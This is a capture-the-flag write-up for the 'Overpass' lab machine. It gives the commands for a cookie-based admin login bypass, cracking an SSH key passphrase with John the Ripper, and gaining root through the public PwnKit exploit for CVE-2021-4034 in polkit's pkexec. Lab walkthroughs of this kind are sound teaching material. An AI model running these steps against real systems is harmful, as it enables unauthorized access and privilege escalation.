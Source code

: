 # Overpass

Ip address: 
```bash
ip = 10.10.47.241
```


## Scanning the webserver

Scanning the webserver with the tool "feroxbuster"
`feroxbuster --url http://10.10.47.241/`

Results:

An admin page is found

## /admin/

Login is required. Jsoncode says:
```javascript
If (result == "unauth or something")
{

}
else{
	setCookie("sessionToken", anyvalue);
}
```

SO: By setting this cookie we can log in.

## /admin/ (logged in)

This shows an RSA private key

-> Decrypt the password with John the Ripper

1. use JohnTheRipper (ssh2john) -> with `wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py`
```bash
python ssh2john.py id_rsa > id_rsa.hash
```
2. Use JohnTheRipper again but to crack the hash

use the wordlist from `/usr/share/wordlists/rockyou.txt`

The full command is: `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`

My password is: `james13`

## SSH into the server

ssh into the server using the command 
```bash
ssh james@10.10.47.241 -i id_rsa
```
cat the users.txt file

## Privilege escalation

Then, to check privesc, upload linpeas from the attacking host to the target: 

```bash
scp -i id_rsa linpeas.sh james@10.10.172.85:/home/james/
```

On the target, run linpeas. There it says it is vurnerable to `
CVE-2021-4034`.

### CVA-2021-4034

This is a privesc vurnerability. The description is as follows:

```
A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.
```

To use this CVE, we can use the github project https://github.com/berdav/CVE-2021-4034

1. Clone the repo on the attacker host

```bash
git clone https://github.com/berdav/CVE-2021-4034.git
```

2. Copy the repo to the target

```bash
scp -i id_rsa -r CVE-2021-4034 james@10.10.172.85:/home/james
```

3. compile the repo by running the `make` command

4. run `./cve-2021-4034`

5. Read the `root.txt` flag in the `/root` folder
